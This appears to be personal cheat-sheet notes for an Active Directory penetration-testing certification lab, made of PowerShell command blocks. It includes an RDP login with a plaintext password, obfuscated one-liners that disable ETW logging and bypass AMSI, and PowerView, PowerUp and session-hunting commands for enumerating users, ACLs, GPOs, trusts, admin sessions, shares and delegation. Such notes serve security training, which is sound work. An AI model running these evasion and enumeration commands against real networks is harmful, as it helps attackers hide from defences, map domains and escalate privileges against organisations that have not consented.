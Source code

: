 ```powershell
xfreerdp3 /u:studentuser /p:7X9Ymp2gheTEi4b0wUWRk /v:172.16.100.1 /dynamic-resolution /drive:AD,/home/adot/certifications/crtp/exam
```

```powershell
net use A: \\TSCLIENT\AD

A:\tools\InviShell\RunWithRegistryNonAdmin.bat

[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```powershell
copy A:\tools\* .
```

```powershell
Import-Module .\PowerView.ps1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1, .\Invoke-SessionHunter.ps1
```

Basic enumeration
```powershell
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).Name
$env:userdomain

Get-DomainUser | select cn

Get-DomainComputer | select dnshostname

Get-DomainGroupMember -Identity "Domain Admins" -recurse | select membername
Get-DomainGroupMember -Identity "Enterprise Admins" -recurse -domain finance.corp | select membername
```

ACLs - Perform on current user + groups user is in
```powershell
Get-DomainObjectAcl -SamAccountName student1 -ResolveGUIDs

Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "student548"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDP Users"}

Get-DomainObjectAcl -SearchBase "LDAP://CN=RDP Users,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local" -ResolveGUIDs -Verbose
```

OUs and GPOs
```powershell
Get-DomainOU -properties name
(Get-DomainOU -identity Applocked).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name

Get-DomainGPO | select displayname
Get-DomainGPO -ComputerIdentity dcorp-std548
```

Domain and Forest trusts
```powershell
Get-DomainTrust
Get-ForestDomain -Forest <forest>
```

Local Admin access?
```powershell
Find-PSRemotingLocalAdminAccess
```

Create a servers.txt file
```powershell
Get-DomainComputer | select cn
```

Find DA sessions
```powershell
Invoke-SessionHunter -NoPortScan -Targets C:\Users\Public\servers.txt
```

Find shares
```powershell
Import-Module .\PowerHuntShares.psm1
```

```powershell
Invoke-HuntSMBShares -NoPing -OutputDirectory C:\Users\Public -HostList C:\Users\Public\servers.txt

Invoke-ShareFinder -Verbose
```

Unconstrained delegation?
```powershell
Get-DomainComputer -UnConstrained
```

Constrained delegation?
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
**REVIEW WHAT PRIVILEGES A USER HAS AFTER COMPROMISE**